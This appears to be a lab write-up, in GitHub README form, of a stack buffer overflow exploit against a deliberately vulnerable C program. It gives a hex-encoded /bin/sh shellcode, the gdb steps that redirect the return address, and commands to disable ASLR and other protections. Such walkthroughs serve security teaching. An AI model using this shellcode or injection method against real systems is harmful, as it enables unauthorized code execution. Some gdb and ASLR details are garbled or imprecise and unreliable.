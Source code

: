 ![image](https://github.com/user-attachments/assets/af9ff0e6-5c16-42ee-8d2d-c3f22ec407c2)![image](https://github.com/user-attachments/assets/fc65187f-1f98-4bf9-8c1b-fa8e5aaa1e95)![image](https://github.com/user-attachments/assets/a0d599a9-8b0b-4865-8772-f91da6b9e762)![image](https://github.com/user-attachments/assets/8eb27f21-dc1b-4e4b-a9ce-860007ce6813)# Understand InjectionCode 
In reality, we don't actually know how long is the stackframe is, so we need to determine how long is it by adding bytes to examine! The task is to load the shellcode into the buffer in the vulnerable program, then insert it into the return address so that the program returns and executes the command I just inserted into the buffer.
## Stackframe
![image](https://github.com/user-attachments/assets/45d28a14-09e3-448e-9ad8-5e3c82b7cd99)
## Vulnerbility
In buf, we can redirect the return address to our assembly code to run our own code!
# Start attacking with InjectionCode 
## Compiling sh.asm file in order to use later
- `nasm -g -f elf sh.asm` or `nasm -f elf32 sh.asm -o sh.o` if the file is existed    
- `ld -m elf_i386 sh.o -o sh sh.o`  
![image](https://github.com/user-attachments/assets/a1d163e7-fb87-4dd8-b958-7ab4893fb80d)
![image](https://github.com/user-attachments/assets/34da393b-eca5-491c-9092-1cdfa8ec6c95)
## Get the hex string of the shellcode
- `for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo`
![image](https://github.com/user-attachments/assets/6a6fe454-3a88-4ba7-ad41-5e24d06c9757)
=> With each x is a byte => we have 27 bytes
## Start attacking
- Compile the vuln.c file `gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](https://github.com/user-attachments/assets/59643489-9be9-40d2-bd46-56df9be508bd)
- To execute code on stack, we need to create new shell! type `sudo ln -sf /bin/zsh /bin/sh` with password: dees
![image](https://github.com/user-attachments/assets/46290e78-f765-4ab3-86d9-a03b63c68962)
- Load the file to gdb to examine `gdb -q vuln.out`
![image](https://github.com/user-attachments/assets/71f61be6-604e-429c-8b6f-6b451ea430b7)
- Type `disas main` to see the assembly code
![image](https://github.com/user-attachments/assets/e48f3b4d-e61d-4431-8b0f-4d760b1ee3fb)
=> At this stage, we will now add 2 breakpoints to see how the code we inject affect the stack!
- Set at +6, after the stack frame is established `b *0x08048441`
  ![image](https://github.com/user-attachments/assets/a3d3478f-9972-434b-9179-7d420b293451)
- Set at +48, before strcpy, we notice that eax has been pushed twice, meaning esp has now decreased by 8 bytes `b *0x0804846b`
  ![image](https://github.com/user-attachments/assets/88216630-ceeb-49f2-99b9-e3673a504d8e)
- Now we run the python code with `r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a'*41 + '\xff\xff\xff\xff')")`
 => See where the **\xff\xff\xff\xff** at
 ![image](https://github.com/user-attachments/assets/81c15458-dc77-471e-919b-1bc159f401b5)
 => At each step, we use `x/80xb $esp` to see the code from esp to lower
 ![image](https://github.com/user-attachments/assets/1a8a1a62-1e4c-4e78-ba2d-90365c5c5eb4)
    * We notice that the shellcode hasn't been inserted!
 => To go on, we use `continue`
 ![image](https://github.com/user-attachments/assets/6ce01ee3-bd39-42bb-9765-6d0add497f62)
    * From now, when we do `x/80xb $esp`, we can see our code that we injected before!
      ![image](https://github.com/user-attachments/assets/c064f0b2-cc47-438c-8d87-6943f7d06020)
    * the **0xff 0xff 0xff 0xff** is at the address 0xffffd6a8 (Because memory starts from address 0 - 15, corresponding to 0 - F in hexadecimal, the first 0xff byte will have a memory address starting with 0xffffd6a8)
- We set that new address to the esp by using `set *0xffffdec=#esp` => Thus, the address in the return address (ret addr) has been replaced by the esp (stack pointer), causing the program to return and continue executing instructions within the stack frame.
  ![image](https://github.com/user-attachments/assets/2f4f1fb7-53bf-4cca-948d-144d5206e5b5)
- If we type continue we will receive this signal => You did the right way!
  ![image](https://github.com/user-attachments/assets/70420abe-e18e-41d3-bccc-3c74056f16d9)
## To disable Address Space Layout Randomization (ASLR), which is responsible for the randomization of memory addresses, you can follow these steps
`sudo sysctl -w kernel.randomize_va_space=0` with password: **dees**  
## If you want to turn it on again please
do `sudo sysctl -w kernel.randomize_va_space=2`
- 2 means on both heap and stack
  ![image](https://github.com/user-attachments/assets/c81211de-3710-4d2b-9ca6-2fdf4c2b325f)
- 1 means for only stack
  ![image](https://github.com/user-attachments/assets/df985c95-1dca-4f8a-908f-8cc99afaa8cf)
- 0 means not for both
  ![image](https://github.com/user-attachments/assets/a920732c-cafb-4b9f-a8f1-6ee3ea9a4fbd)
